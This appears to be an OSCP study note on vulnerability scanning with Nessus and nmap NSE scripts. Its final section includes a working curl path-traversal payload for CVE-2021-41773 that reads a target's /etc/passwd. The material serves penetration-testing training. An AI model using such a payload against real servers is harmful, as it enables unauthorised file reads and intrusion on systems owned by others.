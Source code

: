```yaml
---
title: Vulnerability Scanning
date: 2024-01-13 10:53:00 -0600
categories: [OSCP]
tags: [oscp, pen200, offsec, certs]     # TAG names should always be lowercase
---
```

*The Vulnerability Scanning tools and tactics reviewed here are presented specifically in preparation for the OSCP exam per course suggestions and are by no means replacements for the OSCP training course, nor comprehensive guides for this step in the Kill Chain.*

# Vulnerability Scanning

Automated vulnerability scanners conduct Host Discovery, Port Scanning, OS, Service, and Version Detection, and compare results to vulnerability databases.

Scans can be internal or external, authenticated or unauthenticated.

## Scanning with Nessus

Start Nessus:
```console
$ sudo systemctl start nessusd.service
```

Go to https://kali:8834/ in your browser. When creating a Vulnerability Scan, consider the following:
- Should it be authenticated or unauthenticated?
- Do you need to scan UDP as well? This will take much longer.
- Do you need Host Discovery? Keeping this will ping each host. If you know your hosts are up, deselect this.
- Discovery > Identity provides an option to enumerate Active Directory users.

In the Vulnerabilities tab of the completed Report, sort by Vulnerability Priority Rating (VPR) to view prioritized results. 

To buid a Sitemap of a Webserver (scan web apps), conduct a Basic Network Scan on the web server(s) port(s). While creating the scan, under Assessment, select Custom > Web Applications > Scan web applications. In the completed Report, locate the finding titled "Web Application Sitemap".

To run an Authenticated Vulnerability Scan, choose Credentialed Patch Audit in the Scan Templates. After setting your target, view the Credentials tab. For Mac and Linux you can use SSH, and for Windows, you can use SMB or WMI. For SSH, choose the Authentication Method as password, input the Username, Password, select Elevate Privileges With sudo, input the Sudo User, and Sudo Password. *You may need to add exceptions in the antivirus, firewall, or Windows User Account Control (UAC) feature to allow Nessus to perform these authenticated scans.* In the Patch Report finding, you can see what patches are missing.

To run a scan with a specific plugin (to identify a specific CVE, for example) use the Advanced Dynamic Scan template. Set your target, submit your credentials, and view the Dynamic Plugins page. Configure your filter to find a plugin matching your criteria. Launch scan.

## NSE Vulnerability Scripts

Never run an NSE script without knowing what it does or the potential stability impact.

In Kali, NSE scripts are stored in /usr/share/nmap/scripts/. The vulners.nse script can be used to identify CVEs.

```console
$ sudo nmap -sV -p 443 --script "vuln" 111.111.111.111  // --script "vuln" includes all scripts in the vuln category
```

We can find NSE scripts for various vulnerabilities on the internet if they are not included in the NSE database.

```console
$ sudo nmap -sV -p 443 --script "http-vuln-cve-2021-41773.nse" 111.111.111.111

// The NSE output provides us with the ability to "Verify Arbitrary File Read":
$ curl http://111.111.111.111:443/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd  // We obtain the content of the target's /etc/passwd file.
```
